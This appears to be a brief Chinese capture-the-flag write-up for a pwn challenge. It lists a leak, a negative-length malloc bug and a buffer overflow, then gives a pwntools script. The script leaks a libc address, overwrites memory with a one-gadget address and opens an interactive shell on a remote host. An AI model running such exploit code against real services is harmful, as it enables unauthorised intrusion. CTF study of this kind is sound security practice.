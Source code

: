 在PWN上我真是个弟弟  
1. 泄漏
2. malloc可以整数溢出(姑且这么叫吧)  
3. 缓冲区溢出  
看大佬们直接用的[one-gadget](https://github.com/david942j/one_gadget)

```Python
from pwn import *
#context.log_level="debug"

p=remote("116.85.48.105",5005)
p.sendafter("username: ","aaaa"*6)
p.recvuntil("aaaa"*6)
leak=u32(p.recv(4))-0x5f6bb
payload=p32(leak+0x5f065)*17+"\x00"
p.sendlineafter("password: ","-1")
p.sendafter(": ",payload)
p.interactive()
```